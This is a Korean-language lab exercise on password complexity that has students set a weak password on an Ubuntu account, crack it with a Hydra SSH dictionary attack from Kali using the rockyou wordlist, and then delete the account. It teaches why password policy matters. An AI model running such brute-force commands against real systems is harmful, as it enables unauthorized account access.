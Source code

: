 ## 패스워드 복잡성 설정

취약한 패스워드를 허용하면 어떤 문제가 발생할 수 있는지 알아봅시다.

### 실습 1 : SSH를 통한 사전 대입 공격
1. [우분투] 사용자명이 `aaa`고 패스워드가 `111111`인 계정 생성(또는 기존 계정의 패스워드를 `111111`으로 변경)
```
cju@wooam:~$ sudo adduser aaa
```

2. [우분투] IP 주소 확인
```
cju@wooam:~$ ip a
```

3. [칼리] Hydra 도구를 사용한 사전 대입 공격
```
$ hydra -l aaa -P /usr/share/wordlists/rockyou.txt.gz ssh://192.168.XXX.xxx
```

4. [칼리] 패스워드가 보인다!
```
[22][ssh] host: 192.168.XXX.XXX   login: aaa   password: 111111
```

5. [칼리] (참고) 사전 파일 확인
```
$ vi /usr/share/wordlists/rockyou.txt.gz
```

>> (참고) 우분투 기본 패스워드 정책 확인 : `vi /etc/pam.d/common-passwd`  
>> [https://manpages.ubuntu.com/manpages/jammy/man8/pam_unix.8.html](https://manpages.ubuntu.com/manpages/jammy/man8/pam_unix.8.html)

### 복구
1. [우분투] (필요시) 생성한 계정 삭제
```
cju@wooam:~$ sudo deluser --remove-all-files aaa
```